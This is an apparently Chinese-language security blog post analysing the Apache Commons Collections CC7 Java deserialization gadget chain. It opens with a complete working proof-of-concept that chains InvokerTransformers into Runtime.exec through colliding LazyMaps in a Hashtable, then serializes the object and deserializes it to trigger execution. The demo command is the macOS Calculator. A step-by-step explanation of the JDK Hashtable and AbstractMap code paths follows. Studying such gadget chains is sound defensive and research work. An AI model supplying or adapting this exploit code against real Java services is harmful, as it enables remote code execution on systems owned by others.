

poc

```JAVA
package demo;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;
public class CommonsCollections7 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        final Transformer transformerChain = new ChainedTransformer(new Transformer[]{});
        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        "/System/Applications/Calculator.app/Contents/MacOS/Calculator"),
                new ConstantTransformer(1)};
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();
        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy", 1);
        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1);
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);
        Field iTransformers = ChainedTransformer.class.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain,transformers);
        lazyMap2.remove("yy");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("test.out"));
        objectOutputStream.writeObject(hashtable);
        objectOutputStream.close();
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("test.out"));
        objectInputStream.readObject();
    }
}
```

前半段还是和前面的一样

```java
        final Transformer transformerChain = new ChainedTransformer(new Transformer[]{});
        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        "/System/Applications/Calculator.app/Contents/MacOS/Calculator"),
                new ConstantTransformer(1)};
```

后半段CC7使用Hashtable作为反序列入口去调用到lazyMap#get方法。看hashtable的readObject方法

```java
    private void readObject(java.io.ObjectInputStream s)
         throws IOException, ClassNotFoundException
    {
        // Read in the length, threshold, and loadfactor
        s.defaultReadObject();

        // Read the original length of the array and number of elements
        int origlength = s.readInt();
        int elements = s.readInt();

        // Compute new size with a bit of room 5% to grow but
        // no larger than the original size.  Make the length
        // odd if it's large enough, this helps distribute the entries.
        // Guard against the length ending up zero, that's not valid.
        int length = (int)(elements * loadFactor) + (elements / 20) + 3;
        if (length > elements && (length & 1) == 0)
            length--;
        if (origlength > 0 && length > origlength)
            length = origlength;

        Entry<K,V>[] newTable = new Entry[length];
        threshold = (int) Math.min(length * loadFactor, MAX_ARRAY_SIZE + 1);
        count = 0;
        initHashSeedAsNeeded(length);

        // Read the number of elements and then all the key/value objects
        for (; elements > 0; elements--) {
            K key = (K)s.readObject();
            V value = (V)s.readObject();
            // synch could be eliminated for performance
            reconstitutionPut(newTable, key, value);
        }
        this.table = newTable;
    }
```

reconstitutionPut方法

```java
    private void reconstitutionPut(Entry<K,V>[] tab, K key, V value)
        throws StreamCorruptedException
    {
        if (value == null) {
            throw new java.io.StreamCorruptedException();
        }
        // Makes sure the key is not already in the hashtable.
        // This should not happen in deserialized version.
        int hash = hash(key);
        int index = (hash & 0x7FFFFFFF) % tab.length;
        for (Entry<K,V> e = tab[index] ; e != null ; e = e.next) {
            if ((e.hash == hash) && e.key.equals(key)) {
                throw new java.io.StreamCorruptedException();
            }
        }
        // Creates the new entry.
        Entry<K,V> e = tab[index];
        tab[index] = new Entry<>(hash, key, value, e);
        count++;
    }
```

跟进e.key.equals，实现了AbstractMap#方法

```JAVA
    public boolean equals(Object o) {
        if (o == this)
            return true;

        if (!(o instanceof Map))
            return false;
        Map<K,V> m = (Map<K,V>) o;
        if (m.size() != size())
            return false;

        try {
            Iterator<Entry<K,V>> i = entrySet().iterator();
            while (i.hasNext()) {
                Entry<K,V> e = i.next();
                K key = e.getKey();
                V value = e.getValue();
                if (value == null) {
                    if (!(m.get(key)==null && m.containsKey(key)))
                        return false;
                } else {
                    if (!value.equals(m.get(key)))
                        return false;
                }
            }
```

对传进的map对象调用了get方法。这里就触发了lazyMap#get

```java
        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy", 1);
        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1);
        // Use the colliding Maps as keys in Hashtable
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);
```

这里hashtable put了两次是为了使得reconstitutionPut方法能进到e.key.equals。第一次put时，tab[index]为null,跳过了if判断


下面才会给tab赋值使得tab不为空

```java
        Entry<K,V> e = tab[index];
        tab[index] = new Entry<>(hash, key, value, e);
```

第二次时


两次put的值"yy"和"zZ"则是为了e.hash ==hash，从而进入到if判断里去调用equals。



这里为什么不put两个相同的key呢？是因为如果两个相同的key，在lazyMap的get方法就不会进入到transform函数

```java
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
```

这段代码也是后面为什么lazyMap要remove("yy")的起因。可以看到这里对map执行了put操作，而hashtable的put方法同样会调用equals方法进到lazyMap#put

```java
    public synchronized V put(K key, V value) {
        // Make sure the value is not null
        if (value == null) {
            throw new NullPointerException();
        }

        // Makes sure the key is not already in the hashtable.
        Entry tab[] = table;
        int hash = hash(key);
        int index = (hash & 0x7FFFFFFF) % tab.length;
        for (Entry<K,V> e = tab[index] ; e != null ; e = e.next) {
            if ((e.hash == hash) && e.key.equals(key)) {
                V old = e.value;
                e.value = value;
                return old;
            }
        }
```

此时lazyMap2的size就变成了2。而在equals方法中，有if判断如果两个map的size不想等则直接返回false，所以要remove掉yy,保证两个map的容量都为1且key值不相等。

```java
        if (m.size() != size())
            return false;
```

接下来的代码就是序列化和反序列化了。